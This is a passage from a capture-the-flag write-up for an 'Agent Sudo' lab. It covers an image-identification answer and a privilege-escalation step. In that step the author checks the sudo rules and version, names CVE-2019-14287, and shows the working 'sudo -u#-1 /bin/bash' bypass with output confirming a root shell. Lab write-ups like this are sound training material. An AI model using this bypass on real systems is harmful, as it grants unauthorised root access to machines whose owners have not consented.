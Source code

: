 I used Google Images search engine to find the name of the incident. You just need to uplaod the photo and apparently it's called "Roswell incident" also known as "Roswell alien autopsy". Search it yourself and you might find it interesting.

Answer: `Roswell alien autopsy`

## [Task 5] Privilege escalation

Enough with the extraordinary stuff? Time to get real.

### 5.1 - CVE number for the escalation

It's privilege escalation time. The first thing I did was running `sudo -l` to check my sudo permissions:

~~~
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
~~~

What you see here means we can run `bash` with sudo and no password as any user, except `root`. I had some guesses about what we should do here, so I ran `sudo -V` to check the sudo version and make sure:

~~~
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
~~~

My guess was right and this is a famous sudo vulnerability. Read [this blog](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) to understand this vulnerability and why the exploit works.

CVE: `CVE-2019-14287`

### 5.2 - What is the root flag?

We can easily switch to `root` by running the following command and spawning a root shell:

~~~
$ sudo -u#-1 /bin/bash
~~~

Here's the result:

~~~
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james: 
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
~~~
